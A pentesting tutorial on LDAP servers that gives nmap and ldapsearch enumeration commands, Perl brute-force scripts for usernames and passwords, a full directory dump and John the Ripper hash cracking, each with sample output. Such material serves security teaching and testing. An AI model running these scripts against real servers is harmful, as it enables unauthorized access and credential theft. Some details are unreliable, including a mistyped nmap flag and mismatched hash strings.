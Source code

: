 # Pentesting LDAP Servers
#LDAP #NMAP #john #ldap_bind #ldapsearch

### Enumeration
We first start by scanning the host with ```nmap``` to verify if port 389 is indeed open.

```bash
sudo nmap 7sV -p389 148.32.42.5
```
```bash
Starting Nmap 7.01 ( [https://nmap.org](https://nmap.org/) ) at 2019-01-22 10:55 MST  
Nmap scan report for ldap.acme.com (148.32.42.5)  
Host is up (0.00014s latency).  
PORT    STATE SERVICE VERSION  
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.XService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 7.81 seconds  
sam@asus:~%
```
As we can see nmap reports back to us that the is indeed open and running the LDAP service. Anonymous Bind Our next test is to see if this LDAP server is vulnerable to a NULL base or anonymous bind. We will search for all Distinguished Names (DN) in the tree.
```bash
ldapsearch -x -b "dc=acme,dc=com" "*" -h 148.32.42.5 | awk '/dn: / {print $2}'
```
```bash
dc=acme,dc=com  
cn=admin,dc=acme,dc=com  
cn=ldapusers,dc=acme,dc=com  
cn=evelyn  
cn=sales,dc=acme,dc=com  
ou=direct,cn=sales,dc=acme,dc=com  
ou=channel,cn=sales,dc=acme,dc=com  
cn=support,dc=acme,dc=com  
cn=training,dc=acme,dc=com  
ou=helpdesk,cn=support,dc=acme,dc=com  
ou=escalation,cn=support,dc=acme,dc=com  
ou=instructors,cn=training,dc=acme,dc=com  
ou=course  
cn=chris  
cn=sam  
cn=justin  
cn=heath  
cn=nick  
cn=eric  
cn=tim  
cn=vaj  
sam@asus:~%
```
In this case anonymous bind is allowed and we are able to traverse the directory tree as we would if we were a authenticated user. We can go further by pilfering through the directory and find all the user and user names on the server.

### Unauthenticated Bind Enumeration (DN with no password)

Lets try a search for all user id’s in the directory subtree using the DN `cn=admin,dc=acme,dc=com` and no password.
```bash
ldapsearch -x -D "cn=admin,dc=acme,dc=com" -s sub "cn=*" -h 148.32.42.5 | awk '/uid: /{print $2}' | nl
```
```bash
     1 esampson
     2 cchiu
     3 skumar
     4 jsmith
     5 hahmad
     6 nolsen
     7 ealvarez
     8 tmoreau
     9 vpatel
```
This what you will see if you come upon a server where unauthenticated binds are disallowed:
```bash
ldapsearch -x -D "cn=admin,dc=acme,dc=com" -s sub "cn=*" -h 148.32.42.5  
```
```bash
ldap_bind: Server is unwilling to perform (53)  
additional info: unauthenticated bind (DN with no password) disallowed 
```
Unauthenticated Binds are only allowed if Anonymous Binds are also enabled.

### Authenticated Bind Enumeration

For a authenticated ```LDAP``` bind we need to crack some passwords, preferably the ```ldap``` administrators. We also need identify the authentication used such as md5 ,etc.

We can get the authentication method by using a bogus password and trying to login
```bash
ldapwhoami -h ldap.acme.com -w "abcd123"
```
```bash
SASL/DIGEST-MD5 authentication started  
ldap_sasl_interactive_bind_s: Invalid credentials (49)  
 additional info: SASL(-13): user not found: no secret in database  
```

### Dictonary attack to find valid users

We can use Perl and the Net::LDAP module to check for valid users on the remote LDAP server. The simple script below searches for valid users and returns a distinguished name if found. This will help us in our next step which is to guess passwords for the accounts we find in this search. You can get some ideas on username guessing from [Enumerating UNIX usernames](https://cxyy4rle.blogspot.com/2019/04/enumerating-unix-usernames.html)
```perl
#!/usr/bin/env perl  
use strict;  
use warnings;  
use Net::LDAP;my $server   = "ldap.acme.com";  
my $base     = "dc=acme,dc=com";  
my $filename = "users.txt";open(my $fh, '<', $filename) or die $!;my $ldap = Net::LDAP->new($server) or die $@;while (my $word = <$fh>) {  
    chomp($word); my $search = $ldap->search(  
        base    => $base,  
        scope   => 'sub',  
        filter  => '(&(uid='.$word.'))',  
        attrs   => ['dn']  
    ); print "[+] Found valid login name $word\n" if(defined($search->entry));  
}
```
We now run the script and fuzz for users on the server
```bash
./ldap-users.pl   
```
```bash
[+] Found valid login name twest  
[+] Found valid login name vpatel  
[+] Found valid login name hahmad  
[+] Found valid login name ealvarez  
[+] Found valid login name skumar  
[+] Found valid login name tmoreau  
[+] Found valid login name jsmith  
```

### Dictonary attack to find valid password
Once we have a valid list of users on the server, we can move forward to search for valid user and password combinations. We can use Perl and Net::LDAP to query the server and test for valid logins.
```perl
#!/usr/bin/env perl  
use strict;  
use warnings;  
use Net::LDAP;my $server   = "ldap.acme.com";  
my $user     = "twest";  
my $base     = "dc=acme,dc=com";  
my $filename = "wordlist.txt";open(my $fh, '<', $filename) or die $!;my $ldap = Net::LDAP->new($server) or die $@;my $search = $ldap->search(  
    base    => $base,  
    scope   => 'sub',  
    filter  => '(&(uid='.$user.'))',  
    attrs   => ['dn']  
);if(defined($search->entry)) { my $user_dn = $search->entry->dn; print "[*] Searching for valid LDAP login for $user_dn...\n"; while (my $word = <$fh>) {  
        chomp($word); my $mesg = $ldap->bind($user_dn, password => $word); if ($mesg and $mesg->code() == 0) {  
            print "[+] Found valid login $user_dn / $word\n";  
            exit;  
        }  
    }  
} else {  
    print "[x] $user is not a valid LDAP user...\n";  
    exit;  
}print "[x] No valid LDAP logins found...\n";

Running the script against the server we get the following
```
```bash
./ldap-passwords.pl   
```
```bash
[*] Searching for valid LDAP login for cn=tim west,ou=channel,cn=sales,dc=acme,dc=com...  
[+] Found valid login cn=tim west,ou=channel,cn=sales,dc=acme,dc=com / password  
```

### Dumping data

If we do an ldap search with our user and pass with a search filter of **(objectClass=*)**, a dump of the whole directory tree from admin.

```bash
ldapsearch -D "cn=admin,dc=acme,dc=com" "(objectClass=*)" -w ldapadmin -h ldap.acme.com  
```
```bash
# extended LDIF  
#  
# LDAPv3  
# base  (default) with scope subtree  
# filter: (objectclass=*)  
# requesting: *   
## acme.com  
dn: dc=acme,dc=com  
objectClass: top  
objectClass: dcObject  
objectClass: organization  
o: Acme  
dc: acme# admin, acme.com  
dn: cn=admin,dc=acme,dc=com  
objectClass: simpleSecurityObject  
objectClass: organizationalRole  
cn: admin  
description: LDAP administrator  
userPassword:: e1NTSEF9SW5uaE9PdFRmdENveWhPUDFTUFVnSnNMZ3ZxSVA3aUw=# ldapusers, acme.com  
dn: cn=ldapusers,dc=acme,dc=com  
...  
```

### Cracking OpenLDAP Passwords
the password hashes are encoded in base64 we can easily decode the string to extract the hash
```bash
echo "e01ENX0wTHVBcXJ1R0diYmpVUlB3TG5KMUt3PT0=" | base64 -d  
{MD5}0LuAqruGGbbjURPwLnJ1Kw==
```
All these hashes can be loaded up in JTR and cracked to get shell access on the remote system.
```bash
john --wordlist=/home/sam/pentest_notes/rockyou.txt /home/sam/openldap.txt
```
```bash
Using default input encoding: UTF-8  
Loaded 8 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSE4.1 4x3])  
Remaining 7 password hashes with no different salts  
Warning: no OpenMP support for this hash type, consider --fork=2  
Press 'q' or Ctrl-C to abort, almost any other key for status  
password         (hahmad)  
education        (ealvarez)  
kumar            (skumar)  
jsmith           (jsmith)  
instructor       (tmoreau)  
hindu            (vpatel)  
6g 0:00:00:04 DONE (2019-01-20 22:18) 1.360g/s 3252Kp/s 3252Kc/s 3363KC/s  filimani.¡Vamos!  
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably  
Session completed  
```
